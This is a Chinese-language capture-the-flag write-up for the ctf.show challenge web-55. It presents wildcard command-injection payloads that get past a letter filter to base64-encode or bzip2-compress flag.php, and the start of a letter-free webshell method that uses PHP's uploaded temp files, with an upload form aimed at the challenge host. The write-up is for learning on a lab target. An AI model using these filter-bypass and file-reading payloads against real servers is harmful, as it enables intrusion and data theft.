 ### web-55

**payload1**

利用bin目录

```
bin为binary的简写主要放置一些 系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等
这里我们可以利用 base64 中的64 进行通配符匹配 即 /bin/base64 flag.php
```

使用base64对flag.php进行加密同时使用?绕过字母限制



**payload2**

利用/user/bin目录

```
主要放置一些应用软件工具的必备执行档例如c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome*、zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、newaliases、nslookup passwd、quota、smb*、wget等。
我们可以利用/usr/bin下的bzip2 意思就是说我们先将flag.php文件进行压缩，然后再将其下载
```

先c=/???/???/????2 ????.???

然后在url+ flag。php。bz2下载文件



**payload3**

无字母数字shell

无字母数字webshell之提高篇

shell下可以利用.来执行任意脚本

可以通过发送一个上传文件的POST包，只要是php接收到上传的POST请求(请求结束后会删除临时文件)，就

会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的

大小写字母以及数字

写一个post上传表单

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://99da1d95-7eb6-468a-b044-cf1b1b5b393d.challenge.ctf.show/" method="post" enctype="multipart/form-data">
    <!--目标网址-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```
